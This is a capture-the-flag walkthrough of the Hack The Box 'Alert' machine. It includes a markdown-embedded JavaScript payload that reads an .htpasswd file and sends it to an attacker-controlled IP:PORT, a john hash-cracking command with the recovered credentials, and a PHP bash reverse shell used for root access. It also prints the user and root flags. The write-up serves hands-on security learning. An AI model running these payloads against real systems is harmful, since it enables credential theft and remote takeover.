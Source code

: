 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![Pasted image 20250110145426.png](../../IMAGES/Pasted%20image%2020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![Pasted image 20250110150021.png](../../IMAGES/Pasted%20image%2020250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [LFI](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/FILE%20INCLUSION%20VULNERABILITIES/LOCAL%20FILE%20INCLUSION%20(LFI).md) let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:


So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![Pasted image 20250110155457.png](../../IMAGES/Pasted%20image%2020250110155457.png)

We are able to read `user.txt`:

![Pasted image 20250110155516.png](../../IMAGES/Pasted%20image%2020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![Pasted image 20250110160337.png](../../IMAGES/Pasted%20image%2020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![Pasted image 20250110160647.png](../../IMAGES/Pasted%20image%2020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----


```

We got a root shell, let's read flag:

![Pasted image 20250110161352.png](../../IMAGES/Pasted%20image%2020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```


